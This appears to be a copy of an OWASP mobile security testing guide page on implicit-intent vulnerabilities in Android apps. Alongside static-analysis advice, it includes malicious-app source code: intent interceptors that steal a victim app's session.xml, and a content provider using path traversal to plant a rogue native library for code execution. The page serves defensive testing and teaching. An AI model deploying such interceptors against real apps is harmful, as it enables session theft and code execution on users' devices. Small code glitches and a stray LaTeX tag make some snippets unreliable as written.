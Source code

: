 # [MASTG-TEST-0026: Testing Implicit Intents](https://mas.owasp.org/MASTG/tests/android/MASVS-CODE/MASTG-TEST-0026/)
## Overview
When testing for implicit intents you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.
MASVS-CODE-4 / MSTG-PLATFORM-2 / May 08, 2023

## Implementation

An application was created that, after login, allows users to add a credit card. The `AddCardActivity` has the following intent configuration:

```java 
<activity
    android:name=".AddCardActivity"
    android:exported="false" >
    <intent-filter>
        <action android:name="com.victim.ADD_CARD_ACTION" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
\end{lstlisting}
```

For the exploit, the guide cited in OWASP has followed https://blog.oversecured.com/Interception-of-Android-implicit-intents. 

In summary, another app was created with the same intent name as the victim's app but with higher priority. Consequently, when the intent is launched, the app with higher priority will intercept it.

## Static Analysis
Inspect the Android Manifest and look for any <intent> signatures defined inside blocks ↗ (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following Intent doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action android.intent.action.GET_CONTENT to ask the user for input data and then the app starts the intent by startActivityForResult and specifying an image chooser.

```
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```
The app uses `startActivityForResult `instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents).

## Case 1: Arbitrary File Read¶
In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname> `due to the improper validation of the return value of the intent.

The performAction method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling getExternalCacheDir or `getExternalFilesDir` an attacker can read this file if he sets the permission` android.permission.READ_EXTERNAL_STORAGE`.
```
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}```
The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```
EvilContentActivity.java
```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```
If the user selects the malicious app to handle the intent, the attacker can now steal the session.xml file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.
```
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```
## Case 2: Arbitrary Code Execution¶
An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a ContentProvider that contains public `Cursor query(...)` to set an arbitrary file (in this case lib.so), and if the victim loads this file from the content provider by executing copy the attacker's `ParcelFileDescriptor` openFile(...) method will be executed and return a malicious fakelib.so.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```
EvilContentProvider.java

```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```
EvilContentActivity.java

```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```
